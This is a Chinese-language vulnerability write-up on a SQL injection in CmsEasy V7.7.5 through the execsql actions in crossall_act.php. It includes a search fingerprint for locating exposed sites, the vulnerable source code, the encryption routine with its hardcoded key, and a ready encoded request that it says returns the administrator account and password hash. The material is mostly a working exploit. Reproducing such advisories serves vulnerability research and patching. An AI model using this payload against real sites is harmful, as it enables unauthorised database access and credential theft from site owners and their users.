



# CmsEasy crossall_act.php SQL注入漏洞

## 漏洞描述

CmsEasy 存在SQL注入漏洞，通过文件 service.php 加密SQL语句执行即可执行任意SQL命令

## 漏洞影响

```
CmsEasy V7.7.5_20210919
```

## 网络测绘

```
body="cmseasyedit"
```

## 漏洞复现


存在漏洞的文件为 `lib/default/crossall_act.php`



其中需要注意的代码为

```
function execsql_action(){
        $sqlquery=front::get("sql");
        $sqlquery=service::getInstance()->unlockString($sqlquery,"cmseasy_sql");

        $returndata=tdatabase::getInstance()->rec_query_one($sqlquery);
        echo json_encode($returndata);
        exit;
    }
    function execsqls_action(){
            $sqlquery=front::get("sql");
            $sqlquery=service::getInstance()->unlockString($sqlquery,"cmseasy_sql");

            $returndata=tdatabase::getInstance()->rec_query($sqlquery);
            echo json_encode($returndata);
            exit;
        }
    function execupdate_action(){
        $sqlquery=front::get("sql");
        $sqlquery=service::getInstance()->unlockString($sqlquery,"cmseasy_sql");

        $returndata=tdatabase::getInstance()->query($sqlquery);
        echo json_encode($returndata);
        exit;
    }
```

代码中传入参数 sql， 然后使用方法 unlockString 解码执行 SQL语句

查看文件 `lib/table/service.php`

```
public static function lockString($txt,$key='cmseasy_sql')
    {
        $chars = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789-=+";
        $nh = rand(0,64);
        $ch = $chars[$nh];
        $mdKey = md5($key.$ch);
        $mdKey = substr($mdKey,$nh%8, $nh%8+8);
        $txt = base64_encode($txt);
        $tmp = '';
        $i=0;$j=0;$k = 0;
        for ($i=0; $i<strlen($txt); $i++) {
            $k = $k == strlen($mdKey) ? 0 : $k;
            $j = ($nh+strpos($chars,$txt[$i])+ord($mdKey[$k++]))%64;
            $tmp .= $chars[$j];
        }
        return urlencode($ch.$tmp);
    }

    /**对字符串进行解密。 crossall_act文件使用
     * @param $txt
     * @param string $key
     * @return bool|string
     */
    public static function unlockString($txt,$key='cmseasy_sql')
    {
        $txt = urldecode($txt);
        $chars = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789-=+";
        $ch = $txt[0];
        $nh = strpos($chars,$ch);
        $mdKey = md5($key.$ch);
        $mdKey = substr($mdKey,$nh%8, $nh%8+8);
        $txt = substr($txt,1);
        $tmp = '';
        $i=0;$j=0; $k = 0;
        for ($i=0; $i<strlen($txt); $i++) {
            $k = $k == strlen($mdKey) ? 0 : $k;
            $j = strpos($chars,$txt[$i])-$nh - ord($mdKey[$k++]);
            while ($j<0) $j+=64;
            $tmp .= $chars[$j];
        }
        return base64_decode($tmp);
    }
```

文件中得到了 `$key='cmseasy_sql'` 和加解密方法，构造请求获取账号密码md5



```
/?case=crossall&act=execsql&sql=Ud-ZGLMFKBOhqavNJNK5WRCu9igJtYN1rVCO8hMFRM8NIKe6qmhRfWexXUiOqRN4aCe9aUie4Rtw5
```

